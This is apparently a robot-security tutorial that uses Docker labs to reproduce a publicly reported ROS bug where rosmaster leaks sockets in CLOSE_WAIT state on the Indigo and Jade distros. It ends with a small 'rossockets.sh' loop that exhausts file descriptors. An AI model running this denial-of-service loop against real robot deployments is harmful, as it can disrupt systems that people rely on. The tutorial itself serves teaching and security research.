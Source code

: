 \newpage

## Sockets left open and in CLOSE_WAIT state in ROS (`Jade` distro and before)

In this tutorial we'll exploit the vulnerability. First reported in April 2015 at https://github.com/ros/ros_comm/issues/610, the underlying httplib in `ros_comm` implements things so that connections are only closed if you are sending the header "connection: close". Although a client might close the connection, the socket remains in the `CLOSE_WAIT state [3, 4].

----

**Note**: as in previous tutorials, there's a docker container that facilitates reproducing the work of this tutorial. The container can be built with:
```bash
docker build -t basic_cybersecurity13:latest .
```
and run with:
```bash
docker run -it basic_cybersecurity13:latest
```

----

### Reproducing the flaw

#### Kinetic
Let's start with `Kinetic` and attempt to reproduce it as reported at https://github.com/ros/ros_comm/issues/610#issuecomment-100301061:
```bash
docker build -f Dockerfile.kinetic -t basic_cybersecurity13:latest . # build the kinetic Dockerfile
docker run -it basic_cybersecurity13:latest
root@4256f9eb9567:~# roscore &
root@4256f9eb9567:~# roslaunch /opt/ros/kinetic/share/roscpp_tutorials/launch/talker_listener.launch
...
^C
root@4256f9eb9567:~# roslaunch /opt/ros/kinetic/share/roscpp_tutorials/launch/talker_listener.launch
...
^C

```

in another command line:
```bash
watch -n0 "lsof | grep rosmaster | grep -c CLOSE_WAIT"
Every 0.1s: lsof | grep rosmaster | grep -c CLOSE_WAIT                       Fri Nov  2 12:34:36 2018

0

```

at some point, while re-launching and re-stopping the launchfile, we'll see:
```bash
Every 0.1s: lsof | grep rosmaster | grep -c CLOSE_WAIT                       Fri Nov  2 12:37:29 2018

5
```
in those cases:
```bash
root@5f6d4b210151:/# netstat -aeltnp | grep CLOSE_WAIT
tcp        1      0 172.17.0.2:35586        172.17.0.2:34571        CLOSE_WAIT  0          196101      48/python
tcp        0      0 172.17.0.2:45520        172.17.0.2:11311        CLOSE_WAIT  0          136921      61/rosout
```

but as soon as `root@4256f9eb9567:~# roslaunch /opt/ros/kinetic/share/roscpp_tutorials/launch/talker_listener.launch` is executed again, the number of file descriptors return to 0.

There seems to be a small glitch in `Kinetic` distro but the FDs leakeage seems to be contained. **No issues with Kinetic distro**.

#### Indigo

```bash
docker build -f Dockerfile.indigo -t basic_cybersecurity13:latest . # build the indigo Dockerfile
docker run -it basic_cybersecurity13:latest
roscore &
roslaunch /opt/ros/indigo/share/roscpp_tutorials/launch/talker_listener.launch
... logging to /root/.ros/log/280ed2ea-de98-11e8-b9b0-0242ac110002/roslaunch-4256f9eb9567-1088.log
Checking log directory for disk usage. This may take awhile.
Press Ctrl-C to interrupt
Done checking log file disk usage. Usage is <1GB.

started roslaunch server http://4256f9eb9567:43961/

SUMMARY
========

PARAMETERS
 * /rosdistro: indigo
 * /rosversion: 1.11.21

NODES
  /
    listener (roscpp_tutorials/listener)
    talker (roscpp_tutorials/talker)

ROS_MASTER_URI=http://localhost:11311

core service [/rosout] found
process[listener-1]: started with pid [1106]
process[talker-2]: started with pid [1107]
[ INFO] [1541160590.106715200]: hello world 0
[ INFO] [1541160590.207328800]: hello world 1
...
^C
```

Repeat the following a few times:
```bash
roslaunch /opt/ros/indigo/share/roscpp_tutorials/launch/talker_listener.launch
... logging to /root/.ros/log/280ed2ea-de98-11e8-b9b0-0242ac110002/roslaunch-4256f9eb9567-1088.log
Checking log directory for disk usage. This may take awhile.
Press Ctrl-C to interrupt
Done checking log file disk usage. Usage is <1GB.

started roslaunch server http://4256f9eb9567:43961/

SUMMARY
========

PARAMETERS
 * /rosdistro: indigo
 * /rosversion: 1.11.21

NODES
  /
    listener (roscpp_tutorials/listener)
    talker (roscpp_tutorials/talker)

ROS_MASTER_URI=http://localhost:11311

core service [/rosout] found
process[listener-1]: started with pid [1106]
process[talker-2]: started with pid [1107]
[ INFO] [1541160590.106715200]: hello world 0
[ INFO] [1541160590.207328800]: hello world 1
...
^C
```
then

```bash
root@4256f9eb9567:~# lsof | grep rosmaster | grep -c CLOSE_WAIT
10
```

or:

```bash
root@4256f9eb9567:~# netstat -aeltnp | grep CLOSE_WAIT
tcp        1      0 172.17.0.2:57826        172.17.0.2:34649        CLOSE_WAIT  0          113151      1468/python
tcp        1      0 172.17.0.2:42052        172.17.0.2:37739        CLOSE_WAIT  0          114078      1468/python
tcp        0      0 172.17.0.2:45088        172.17.0.2:11311        CLOSE_WAIT  0          114002      1454/rosout
```

(note the correlation between the `python` Program Names sockets and the amount of file descriptors open (5 times that quantity to be precise)).

There is a FDs leakeage in `Indigo` distro.

#### Jade
Same issue applies to `Jade`, FDs leakeage.

### Automating the exploitation
The simplest way to do so is to put together a script that exploits the flaw and name it `rossockets.sh`:

```bash
#!/bin/bash
while true; do
roslaunch /opt/ros/indigo/share/roscpp_tutorials/launch/talker_listener.launch & sleep 2; kill -INT %+
done
```

then:
```bash
roscore &
./rossockets.sh > /tmp/dump.txt &
watch -n0 "lsof | grep rosmaster | grep -c CLOSE_WAIT"
```

you will see how the number of file descriptors will start increasing and reach one thousand in a few minutes.

### Resources
- [1] Mendia, G. O., Juan, L. U. S., Bascaran, X. P., Calvo, A. B., Cordero, A. H., Ugarte, I. Z., ... & Vilches, V. M. (2018). Robotics CTF (RCTF), a playground for robot hacking. arXiv preprint arXiv:1810.02690.
- [2] Scenarios of the Robotics CTF (RCTF), a playground to challenge robot security. Retrieved from https://github.com/aliasrobotics/RCTF
- [3] rosmaster leaves sockets in CLOSE_WAIT state. Retrieved from https://github.com/ros/ros_comm/issues/610.
- [4] Close CLOSE_WAIT sockets by default. Retrieved from https://github.com/ros/ros_comm/pull/1104.
